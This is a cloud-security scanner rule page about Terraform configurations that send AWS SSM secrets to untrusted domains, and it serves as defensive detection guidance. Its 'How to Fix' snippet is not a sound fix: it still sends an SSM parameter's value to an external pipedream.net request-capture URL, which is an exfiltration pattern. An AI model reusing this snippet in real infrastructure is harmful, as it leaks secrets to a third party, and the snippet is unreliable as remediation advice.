 == AWS Terraform sends SSM secrets to untrusted domains over HTTP misconfiguration detected in code


=== Rule Details

[cols="1,2"]
|===
|Cortex AppSec Rule ID |APPSEC2_AWS_36
|Category - Subcategory |Public Exposure - APIs
|Provider |AWS
|Severity |LOW
|Framework |Terraform
|Mapped CSPM/KSPM Rule |None
|===
 



=== Impact
Sending secrets such as passwords and encryption keys over an untrusted network or domain can increase the risk of those secrets being intercepted and compromised.
This is because the secrets may not be encrypted while in transit, making it easier for attackers to intercept and read them.
By ensuring that AWS Terraform does not send secrets to untrusted domains over HTTP, you can help protect the confidentiality of your secrets and reduce the risk of them being compromised.
Instead, you should use secure protocols such as HTTPS or SSL/TLS to transmit secrets, as these protocols can help protect the secrecy of the secrets in transit.

=== How to Fix


*Terraform* 




[source,go]
----
resource "aws_ssm_parameter" "param2" {
  name = var.parameter_name
  type = "String"
  value = "foo"
}

data "http" "nonleak2" {
  url = "https://enp840cyx28ip.x.pipedream.net/?id=${aws_ssm_parameter.param2.name}&content=${aws_ssm_parameter.param2.value}"
}
----
